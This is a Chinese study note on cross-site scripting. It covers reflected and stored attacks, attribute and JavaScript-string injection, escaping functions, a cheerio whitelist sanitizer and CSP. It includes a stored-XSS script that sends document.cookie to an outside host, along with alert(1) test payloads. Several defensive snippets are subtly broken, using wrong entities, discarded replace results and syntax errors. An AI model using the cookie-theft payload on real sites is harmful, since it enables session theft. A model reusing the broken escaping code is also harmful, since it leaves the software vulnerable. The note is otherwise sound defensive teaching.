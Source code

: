 ```yaml
---
title: web安全之XSS
type: "categories"
categories: 其他
---
```


# xss (cross site script)
跨站脚本攻击，比如：
造成的危害：
	获取页面数据
	获取cookies
	获取用户密码
	劫持前端逻辑
	发送请求
	欺骗用户
	......

类型： 
	url  反射型攻击
	存储型 存储到DB后再读出（表单存储)
	比如：嵌入表单
```
<script type="text/javascript">
	let img = document.create('img')
	img.width  = 0
	img.height = 0
	img.src = "https://www.yyy.com/joke/jp.php?joke=' + encodeURIcomponent(document.cookie)'"
</script>
```

把这些存入数据库，用户再次访问的时候会读取这个脚本
1. HTML内容
http://localhost:8000/?from=<script>alert(1)</script>
escapeHTML() {
	str.replace(/</, '&lt')
	str.replace(/>/, '&rt')
}

2. HTML属性注入
逃出html属性的控制
localhost:8000?avatarId=1.png" onerror ="alert(1)

解决方案：
```
escapeHTMLAttribute() {
	str.replace(/"/g, '&quot')
	str.replace(/'/g, '&#39')
	str.replace(/' '/g, '&#32')
}
```
把前两者合并成一个
```
escapeHTML(str) {
	//这个要注意html解析的时候，多个空格会解析成一个空格，所以这里不予转义，主要不要html属性加上引号就可以了
	str.replace(/</g, '&lt')
	str.replace(/>/g, '&rt')
	str.replace(/"/g, '&quot')
	str.replace(/'/g, '&#39')
}
```
其实浏览器已经帮我们阻止掉了前面两种攻击

2. js注入
http://localhost:8000/?from=google";alert(1);" 一定要关闭分号;
```
<script>
	let data = "#{data}"
	let data = "hello;";alert(1)""
</script>
解决办法：
JSON.stringify(str)
```
3. 富文本
按照白名单保留标签和属性，引用一个cheerio
```
var cheerio = require('cheerio')
var $ = cheerio.load(html)
//白名单
var whiteList = {
	'img': ['src'],
	'font': ['color', 'size']
}
$('*').each((index, ele) => {
	if(!(whiteList[ele.name]) {
		$(ele).remove()
		return
	})
})
for(var attr in elem.attribute) {
	if(whiteList[ele.name].indexOf(attr) === -1) {
		$(ele).attr(attr, null)
	}
}
return $.html()

可以使用第三方库 js-xss
``

浏览器标准做了些什么CSP（内容安全策略）
指定哪些内容可以执行
Content-Security-Policy default-src  self


